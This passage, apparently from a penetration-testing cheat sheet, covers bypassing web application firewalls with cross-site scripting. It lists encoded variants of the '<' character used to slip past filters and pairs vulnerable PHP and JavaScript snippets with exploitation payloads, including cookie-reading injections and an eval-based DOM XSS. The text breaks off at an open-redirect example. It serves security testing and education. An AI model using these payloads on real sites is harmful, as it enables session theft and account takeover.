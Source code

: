 - `&#X0003C`
- `&#X00003C`
- `&#X000003C`
- `&#X3C;`
- `&#X03C;`
- `&#X003C;`
- `&#X0003C;`
- `&#X00003C;`
- `&#X000003C;`
- `\x3c`
- `\x3C`
- `\u003c`
- `\u003C`

## Methods to Bypass WAF – Cross-Site Scripting

### General issues

#### Stored XSS

If an attacker managed to push XSS through the filter, WAF wouldn’t be able to prevent the attack conduction.

#### Reflected XSS in JavaScript

Example:

```js
<script> ... setTimeout(\\"writetitle()\\",$\_GET\[xss\]) ... </script>
```

Exploitation:

```js
/?xss=500); alert(document.cookie);//
```

#### DOM-based XSS

Example:

```js
<script> ... eval($\_GET\[xss\]); ... </script>
```

Exploitation:

```js
/?xss=document.cookie
```

#### XSS via request Redirection

Vulnerable code:

```js
...
header('Location: '.$_GET['param']);
...
```
